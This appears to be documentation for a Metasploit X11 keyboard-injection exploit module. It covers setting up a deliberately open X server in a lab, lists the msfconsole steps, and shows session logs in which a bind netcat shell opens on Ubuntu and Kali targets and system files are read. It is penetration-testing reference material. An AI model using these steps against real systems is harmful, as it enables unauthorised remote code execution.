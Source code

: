 ## Vulnerable Application

X11 (X Window System) is a graphical windowing system most common on unix/linux.
The service can accept connections from any users when misconfigured which is done with the command `xhost +`.

This exploit has been verified against:

1. Ubuntu 14.04
2. Ubuntu 16.04
3. Kali via Emulation method

This exploit does NOT work against:

1. Solaris 10 Java Desktop System (alt+F2 has no effect)

### Emulation

This can be emulated (on kali) utilizing the following command: `socat -d -d TCP-LISTEN:6000,fork UNIX-CONNECT:/tmp/.X11-unix/X0`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`


## Verification Steps

  1. Install and configure X11
  2. Start msfconsole
  3. Do: `use exploit/unix/x11/x11_keyboard_exec`
  4. Do: `set rhost [IPs]`
  5. Do: `set payload [payload]`
  6. Do: `exploit`

## Scenarios

### Ubuntu 14.04

```
msf exploit(x11_keyboard_exec) > set payload cmd/unix/bind_netcat 
payload => cmd/unix/bind_netcat
msf exploit(x11_keyboard_exec) > run

[*] Started bind handler
[*] 192.168.2.75:6000 - 192.168.2.75:6000 - Register keyboard
[*] 192.168.2.75:6000 - 192.168.2.75:6000 - Opening "Run Application"
[*] 192.168.2.75:6000 - 192.168.2.75:6000 - Waiting 5 seconds...
[*] 192.168.2.75:6000 - 192.168.2.75:6000 - Opening xterm
[*] 192.168.2.75:6000 - 192.168.2.75:6000 - Waiting 5 seconds...
[*] 192.168.2.75:6000 - 192.168.2.75:6000 - Typing and executing payload
[*] Command shell session 1 opened (192.168.2.117:44549 -> 192.168.2.75:4444) at 2017-04-23 15:26:56 -0400

id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
NAME="Ubuntu"
VERSION="14.04.5 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.5 LTS"
VERSION_ID="14.04"
```

### Ubuntu 16.04

```
msf exploit(x11_keyboard_exec) > set rhost 192.168.2.26
rhost => 192.168.2.26
msf exploit(x11_keyboard_exec) > set payload cmd/unix/bind_netcat 
payload => cmd/unix/bind_netcat
msf exploit(x11_keyboard_exec) > exploit

[*] Started bind handler
[*] 192.168.2.26:6000 - 192.168.2.26:6000 - Register keyboard
[*] 192.168.2.26:6000 - 192.168.2.26:6000 - Opening "Run Application"
[*] 192.168.2.26:6000 - 192.168.2.26:6000 - Waiting 5 seconds...
[*] 192.168.2.26:6000 - 192.168.2.26:6000 - Opening xterm
[*] 192.168.2.26:6000 - 192.168.2.26:6000 - Waiting 5 seconds...
[*] 192.168.2.26:6000 - 192.168.2.26:6000 - Typing and executing payload
[*] Command shell session 2 opened (192.168.2.117:45813 -> 192.168.2.26:4444) at 2017-04-23 15:29:27 -0400

id 
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.1 LTS"
NAME="Ubuntu"
VERSION="16.04.1 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.1 LTS"
VERSION_ID="16.04"
UBUNTU_CODENAME=xenial
```

### Kali via Emulation

```
msf exploit(x11_keyboard_exec) > set payload cmd/unix/bind_netcat 
payload => cmd/unix/bind_netcat
msf exploit(x11_keyboard_exec) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf exploit(x11_keyboard_exec) > run

[*] Started bind handler
[*] 127.0.0.1:6000 - 127.0.0.1:6000 - Register keyboard
[*] 127.0.0.1:6000 - 127.0.0.1:6000 - Opening "Run Application"
[*] 127.0.0.1:6000 - 127.0.0.1:6000 - Waiting 5 seconds...
[*] 127.0.0.1:6000 - 127.0.0.1:6000 - Opening xterm
[*] 127.0.0.1:6000 - 127.0.0.1:6000 - Waiting 5 seconds...
[*] 127.0.0.1:6000 - 127.0.0.1:6000 - Typing and executing payload
[*] Command shell session 3 opened (127.0.0.1:37909 -> 127.0.0.1:4444) at 2017-04-23 15:35:26 -0400
```
